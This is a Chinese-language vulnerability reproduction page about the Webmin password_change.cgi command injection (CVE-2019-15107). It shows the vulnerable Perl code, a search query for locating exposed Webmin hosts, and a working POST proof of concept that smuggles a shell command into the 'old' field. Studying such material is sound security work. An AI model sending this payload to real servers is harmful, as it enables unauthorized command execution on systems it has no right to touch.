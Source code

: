 # Webmin password_change.cgi 远程命令执行漏洞 CVE-2019-15107

## 漏洞描述

Webmin是 一 个 用 于 管 理 类 Unix系 统 的 管 理 配 置 工 具 ， 具 有 Web页 面 。 在 其 找 回 密 码 页 面 中 ， 存 在 一 处 无 需 权 限 的 命 令 注 入 漏 洞 ， 通 过 这 个 漏 洞 攻 击 者 即 可 以 执 行 任 意 系 统 命 令 。 

## 漏洞影响

<a-checkbox checked>Webmin <= 1.920</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="webmin"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1661479903495-110cfdb8-0a65-4ffb-8779-62b388a34563.png)

漏洞的触发点为文件 password_change.cgi 

![img](/assets/PeiQi-Wiki/img/1661568713515-5009d2d4-80a9-49b0-ab9b-f098bff322c4.png)

其中接受的POST传参的几个参数为 `user pam expired old new1 new2`， 值得注意的参数为 old, 对应的代码片段存在漏洞

![img](/assets/PeiQi-Wiki/img/1661568802728-3a2a2afb-8b16-47f9-9fb1-e83c6854ee94.png)

```php
if ($wuser) {
	# Update Webmin user's password
	$enc = &acl::encrypt_password($in{'old'}, $wuser->{'pass'});
	$enc eq $wuser->{'pass'} || &pass_error($text{'password_eold'},qx/$in{'old'}/);
	$perr = &acl::check_password_restrictions($in{'user'}, $in{'new1'});
	$perr && &pass_error(&text('password_enewpass', $perr));
	$wuser->{'pass'} = &acl::encrypt_password($in{'new1'});
	$wuser->{'temppass'} = 0;
	&acl::modify_user($wuser->{'name'}, $wuser);
	&reload_miniserv();
	}
```

在 perl 中 `qx/id/`, 对应执行系统命令 id, 而可控的参数里 old 参数是可控的，导致命令执行 并通过 pass_error 回显至页面中， 验证POC

```php
POST /password_change.cgi

user=rootxx&pam=&expired=2&old=test|id&new1=test2&new2=test2
```

![img](/assets/PeiQi-Wiki/img/1661480163002-a6dc7596-7d8a-4f8f-9b76-da1caa8b1b75.png)
